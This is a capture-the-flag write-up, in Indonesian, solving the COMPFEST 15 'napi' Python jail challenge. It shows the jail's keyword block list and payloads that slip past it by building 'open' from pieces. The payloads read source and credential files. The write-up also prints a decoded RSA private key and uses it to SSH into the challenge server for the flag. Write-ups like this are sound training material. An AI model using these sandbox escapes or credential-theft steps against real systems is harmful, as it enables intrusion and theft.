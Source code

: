 # __CTF COMPFEST 15__ 
## _napi_

## Information
**Category:** | **Points:** | **Writeup Author**
--- | --- | ---
Misc | 316 | k3ng

**Description:** 

> john is currently planning an escape from jail. Fortunately, he got a snippet of the jail source code from his cellmate. Can you help john to escape?
> 
> `nc 34.101.122.7 10008`
> 
> [snippet.py](snippet.py)

### snippet.py
```py
# ...

def main():
    banned = ['eval', 'exec', 'import', 'open', 'system', 'globals', 'os', 'password', 'admin']

    print("--- Prisoner Limited Access System ---")

    user = input("Enter your username: ")

    if user == "john":
        inp = input(f"{user} > ")

        while inp != "exit":
            for keyword in banned:
                if keyword in inp.lower() or not inp.isascii():
                    print(f"Cannot execute unauthorized input {inp}")
                    print("I told you our system is hack-proof.")
                    exit()
            try:
                eval(inp)
            except:
                print(f"Cannot execute {inp}")
            
            inp = input(f"{user} > ")

    elif user == "admin":
        print("LOGGING IN TO ADMIN FROM PRISONER SHELL IS NOT ALLOWED")
        print("SHUTTING DOWN...")
        exit()
    
    else:
        print("User not found.")

# ...
```

## Solution
Pada chall ini kita bisa menggunakan syntax python tapi dengan batasan tidak bisa menggunakan beberapa syntax pada list `banned`. Jalankan challnya pada remote dan kita coba menggunakan syntax berikut.
> `john > print(__builtins__.__dict__['op'+'en'])`

Dan menghasilkan

> `<built-in function open>`

Kita lanjutkan dengan melihat isi source code chall ini karena pada file yang ada pada soal kurang lengkap menggunakan syntax berikut.

> `john > print(__builtins__.__dict__['op'+'en'](__file__).read())`

Dan menghasilkan [chall.py](chall.py)

## chall.py
```py
password = open("creds.txt", "r")

del __builtins__.__import__


def main():
    banned = ['eval', 'exec', 'import', 'open',
              'system', 'globals', 'os', 'password', 'admin']

    print("--- Prisoner Limited Access System ---")

    user = input("Enter your username: ")

    if user == "john":
        inp = input(f"{user} > ")

        while inp != "exit":
            for keyword in banned:
                if keyword in inp.lower() or not inp.isascii():
                    print(f"Cannot execute unauthorized input {inp}")
                    print("I told you our system is hack-proof.")
                    exit()
            try:
                eval(inp)
            except:
                print(f"Cannot execute {inp}")

            inp = input(f"{user} > ")

    elif user == "admin":
        print("LOGGING IN TO ADMIN FROM PRISONER SHELL IS NOT ALLOWED")
        print("SHUTTING DOWN...")
        exit()

    else:
        print("User not found.")


def admin(password_io=None):
    if password_io == globals()['password']:
        print(f"Welcome admin!")
        print("Here's the flag: ")
        with open("notice.txt", "r") as f:
            print(f.read())
    else:
        print("Wrong password!")


if __name__ == "__main__":
    try:
        main()
    except:
        print("Something horribly wrong happened")

```

Terlihat 2 file yang menarik yaitu `notice.txt` dan `creds.txt`, kita buka kedua file tersebut.

> `john > print(__builtins__.__dict__['op'+'en']('creds.txt').read())`

> `john > print(__builtins__.__dict__['op'+'en']('notice.txt').read())`

Dan menghasilkan [creds.txt](creds.txt) dan [notice.txt](notice.txt).

### creds.txt
```
LS0tLS1CRUdJTiBSU0EgUFJJVkFURSBLRVktLS0tLQpNSUlFb3dJQkFBS0NBUUVBbjhDYzFqdnZW
ZGFESTlOUThlbk5kd1BaTFd1Qkt5aG13ZklpV1NUREdJYi8xNTVkCmhXMGZ2aXNCVkJvMFZhamRG
MFhsL056MEpYd2RXcGVVcmdzaUUyKytrSHBrZ3Z6VHVma3BsVkRERkNBNDR6b3EKSHhKS09TVzdW
VzgvNjdHbHorQlBBc1RkYloySUEwYThTVVJIZ1FXc0IybXlBRmxRNGNLNXBodlFpZjRQQ0didQpL
VkMyNTBHcTRTUzBnYnhicjdjUXVhek9JYWljKzd5azYzcW5RakkvRVladkRMSHVtdG1uaEpnc3JM
SVdMeUZ2Ci9DU05XWnJXSVozREwwWGphUkRiQzBHMGw4dlNVNUpOZ0E2S1JRTDhUOUIwZk5pYXl1
U28zMWVHMy9CY3l5YVYKVG1EM1lsQ2J4NUU1TlZsemt0N1I0M3dkYVZFV0FBVzBwOGprdFFJREFR
QUJBb0lCQUUxZkgxYlBMbXFYZTJwVgpoV1cxQkJNNVpPMFBuVDdHMFlYcmZPRko0Y2UyVXFFZWpW
TDYrQjNGZkY0OFZzNkorNUt6QXVIR0xlVWR5S1hBCnRuelkzWWNtWHRoZ3Z0K0dEaEdMY0sxbHNT
WEZPV2dzR294ejhramRVbTdkYzhyMmZrVkE4V040NzNtUWkzaHkKd095SFNrNWQ3ZVNsTjFYZDdF
TjdhU2pmWGRBRzNVTmRISWR2clAwL2t5K3J6SzlualN0bHF5RGUyYVFTZHRpNQpQa2xQSVY1QUVY
bnNSVGNoUzFLVTcvdWlxVUw5L1BsQlZXM1lieTl2OVExVm5Jd3Z4eXA2aVRQOW13RW1RM251Ci9h
Zm9XTEJtOUFicnV6UXpSdzN0aGN0UlNvMTZWREFBQW5ybGd1NkhMSXJGK21jaER6NERuN2pDZm8x
YlZzRk0KSTJ2aHlPRUNnWUVBMFlrRTZtSlBGdDhJcENZVzlOUGw3bHMzTnV1NVlNY2ZLbzhndy9h
RnZXaHJGRUtnOGJqUwp3STNrcTFGN0pWS0tYQVVGMDEwNGJmZ3QwMnJpTTJ0cGxUZnQ4ajZ0dGQ2
RWt3Yy8xdDhTUjNpelQyaTc5TW1hCnRTb3BCcThhcDZuRVEwSElITU9XYnlZYVgxSmFsZVVhcTBl
eVRrQWNWZFRRN3E1OUZaTVpVazBDZ1lFQXd5MkEKU3V6Q0haMy9uVGYrT0YvUi9JMi9nWHcvOGtj
MEhmSnZjbkVrZWg2TUR4cWhwc0YzZlRBbzZiV2N5cWZhbzdtVQpJREF2NjBlbjlyNFpWbWdOQm1K
N2JhbUxTTmg3RDhhaTZPZ1d3Q1NDQ0JMV0RuSzFKZXd2NFhJWklLM3BERGZhCkJ1MWx0YUpqMkVG
WmVIQUV5a0MvSG5DbVhVbjZjazNudUt2NUFBa0NnWUFiRys0ZDRQQTRsa3lJNkVDcUZrdzIKUldq
a1d5VVZ4MDFaOVVDWStla2RzMGUvVEV1RVdwUXh3Mm5sWEZwaFhzZDExbFNGbnhidzYxNEtiMWFx
cm1mdgpuVmZVc3BWSTVXd2psWm1GMUVDS0xLeU9Sbytpd1A2YUY4Vk5EeFNVd3BzWTFJYnVhY09w
eDdVN3hlemdYYzdRCmdDc3FncExuNit2SUpaMGJVSGZETlFLQmdRQ3E4MTJkUW9ZN1hyb1d3SVpn
WmowTVVqTmNmTEdkeVpQeWJ2Z0MKYXVzaU0wTkZyM1BMRlVWTlZ6TmVrSDNHV3dMN3lIM2ZPNVdk
SkdRUGtDMnRLdkhObDlDNEdub3UwYjNuOFhtYgpPajFEQ2pjQ1QwMUIxbUtuMXBtUmcxaFM4VUJn
UFVNd01ocVYzcWhKTCtQbncyWE9xS3M5UkRuVEdBck90MEd3CjFLQUIwUUtCZ0FHVFVPWGhVOVhB
bHZVZG9DeTFUZTNLeU5TWFRwekJXNFJxN3p3ejZQMENOVzlQTHNxNHNFRU0KcjlHYXpFUys5aW92
eS9DeDlFd0xCVXlLWi9sTFVzUWNta2IwOWdTS2hBbTk5aXRKSVE0eHJYUytyR2I5dzQrbgpqclRh
OHF6Y3QvOGNVOGlkeHlFUVZoc2xhRnlCQkU5elE2REtjb3RRQ1BrQmY3T09Lc0MvCi0tLS0tRU5E
IFJTQSBQUklWQVRFIEtFWS0tLS0tCg==
```

### notice.txt
```
--- IMPORTANT NOTICE ---

Dear admins, I have received information that a prisoner is trying to get access to the flag.
I have moved the flag somewhere safe.
I would advise you not to access the flag right now.
But if there is an urgent matter, login to admin@THIS_SERVER_IP:10009 with your password as the SSH key to access the flag.
```


Pada [creds.txt](creds.txt) masih berupa base64, kita encode menghasilkan [rsa.txt](rsa.txt).

### rsa.txt
```
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAn8Cc1jvvVdaDI9NQ8enNdwPZLWuBKyhmwfIiWSTDGIb/155d
hW0fvisBVBo0VajdF0Xl/Nz0JXwdWpeUrgsiE2++kHpkgvzTufkplVDDFCA44zoq
HxJKOSW7VW8/67Glz+BPAsTdbZ2IA0a8SURHgQWsB2myAFlQ4cK5phvQif4PCGbu
KVC250Gq4SS0gbxbr7cQuazOIaic+7yk63qnQjI/EYZvDLHumtmnhJgsrLIWLyFv
/CSNWZrWIZ3DL0XjaRDbC0G0l8vSU5JNgA6KRQL8T9B0fNiayuSo31eG3/BcyyaV
TmD3YlCbx5E5NVlzkt7R43wdaVEWAAW0p8jktQIDAQABAoIBAE1fH1bPLmqXe2pV
hWW1BBM5ZO0PnT7G0YXrfOFJ4ce2UqEejVL6+B3FfF48Vs6J+5KzAuHGLeUdyKXA
tnzY3YcmXthgvt+GDhGLcK1lsSXFOWgsGoxz8kjdUm7dc8r2fkVA8WN473mQi3hy
wOyHSk5d7eSlN1Xd7EN7aSjfXdAG3UNdHIdvrP0/ky+rzK9njStlqyDe2aQSdti5
PklPIV5AEXnsRTchS1KU7/uiqUL9/PlBVW3Yby9v9Q1VnIwvxyp6iTP9mwEmQ3nu
/afoWLBm9AbruzQzRw3thctRSo16VDAAAnrlgu6HLIrF+mchDz4Dn7jCfo1bVsFM
I2vhyOECgYEA0YkE6mJPFt8IpCYW9NPl7ls3Nuu5YMcfKo8gw/aFvWhrFEKg8bjS
wI3kq1F7JVKKXAUF0104bfgt02riM2tplTft8j6ttd6Ekwc/1t8SR3izT2i79Mma
tSopBq8ap6nEQ0HIHMOWbyYaX1JaleUaq0eyTkAcVdTQ7q59FZMZUk0CgYEAwy2A
SuzCHZ3/nTf+OF/R/I2/gXw/8kc0HfJvcnEkeh6MDxqhpsF3fTAo6bWcyqfao7mU
IDAv60en9r4ZVmgNBmJ7bamLSNh7D8ai6OgWwCSCCBLWDnK1Jewv4XIZIK3pDDfa
Bu1ltaJj2EFZeHAEykC/HnCmXUn6ck3nuKv5AAkCgYAbG+4d4PA4lkyI6ECqFkw2
RWjkWyUVx01Z9UCY+ekds0e/TEuEWpQxw2nlXFphXsd11lSFnxbw614Kb1aqrmfv
nVfUspVI5WwjlZmF1ECKLKyORo+iwP6aF8VNDxSUwpsY1IbuacOpx7U7xezgXc7Q
gCsqgpLn6+vIJZ0bUHfDNQKBgQCq812dQoY7XroWwIZgZj0MUjNcfLGdyZPybvgC
ausiM0NFr3PLFUVNVzNekH3GWwL7yH3fO5WdJGQPkC2tKvHNl9C4Gnou0b3n8Xmb
Oj1DCjcCT01B1mKn1pmRg1hS8UBgPUMwMhqV3qhJL+Pnw2XOqKs9RDnTGArOt0Gw
1KAB0QKBgAGTUOXhU9XAlvUdoCy1Te3KyNSXTpzBW4Rq7zwz6P0CNW9PLsq4sEEM
r9GazES+9iovy/Cx9EwLBUyKZ/lLUsQcmkb09gSKhAm99itJIQ4xrXS+rGb9w4+n
jrTa8qzct/8cU8idxyEQVhslaFyBBE9zQ6DKcotQCPkBf7OOKsC/
-----END RSA PRIVATE KEY-----

```

Pada [notice.txt](notice.txt) terdapat hint bahwa kita harus mengakses server SSH dengan credential admin. Lalu kita akses server SSH dengan password yang ditemukan tadi. Jangan lupa juga mengganti permission [rsa.txt](rsa.txt) ke `600`

> `$ chmod 600 rsa.txt`

> `$ ssh admin@34.101.122.7 -p 10009 -i rsa.txt`

Setelah berhasil mengakses server SSH kita gunakkan command

> `$ ls`

untuk melihat list file dan terdapat file `flag.txt` dan kita buka untuk mendapakan flag

> `$ cat flag.txt`

## Flag:
> COMPFEST15{clo5e_y0ur_f1LE_0bj3ctS_plZzz___THXx_053fac8f23}